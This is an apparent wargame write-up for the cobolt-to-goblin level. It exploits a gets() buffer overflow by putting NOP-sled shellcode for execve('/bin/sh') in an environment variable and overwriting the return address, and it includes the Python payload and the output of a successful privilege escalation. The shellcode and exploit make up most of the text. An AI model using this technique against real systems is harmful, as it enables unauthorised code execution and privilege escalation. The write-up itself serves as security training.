 # Vulnerability
In cobolt's home directory, There is a file named as goblin, and C code is provided, too.

Little difference is strcpy() changed to gets().
```c
char buffer[16];
gets(buffer);
```
gets() function doesn't check parameter's length so I can overwrite SFP & RET Address.

# Exploitation
To check whether dummy bytes exist or not, disassemble cobolt's main function:
```assembly
0x80483f8 <main>:	push   %ebp
0x80483f9 <main+1>:	mov    %esp,%ebp
0x80483fb <main+3>:	sub    $0x10,%esp
```
It only uses ```0x10```(16) bytes, No any dummy bytes.

Then, the structure of cobolt would be like:
```
---------------------------------
| buffer[16] | SFP[4] | RET[4] |
---------------------------------
```

I will write NOP & Shellcode into Environment Variable and write the variable's address into RET Address.

To get the address, write a simple C code:
```c
#include <stdio.h>
int main(void) {
        printf("Address of SHELLCODE: 0x%x\n", getenv("SHELLCODE"));
}
```

Export environment variable, compile c code, get SHELLCODE's address:
```bash
[cobolt@localhost cobolt]$ export SHELLCODE="`python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`"
[cobolt@localhost cobolt]$ 
[cobolt@localhost cobolt]$ gcc -o ./getsh ./getsh.c
[cobolt@localhost cobolt]$ ./getsh 
Address of SHELLCODE: 0xbffffe6b
[cobolt@localhost cobolt]$ 
```

```
---------------------------------------------
| NOP[16] | SFP[4] | RET[4] (env's address) |
---------------------------------------------
```

# Payload
```python
import os
from struct import *

payload = ""
payload = payload + "\x90" * 16
payload = payload + "AAAA" # SFP
payload = payload + "\x6b\xfe\xff\xbf" # RET

print payload
```

```bash
[cobolt@localhost cobolt]$ (python ./exploit.py ;cat)|./goblin 
AAAAkþÿ¿
id     
uid=502(cobolt) gid=502(cobolt) euid=503(goblin) egid=503(goblin) groups=502(cobolt)
```
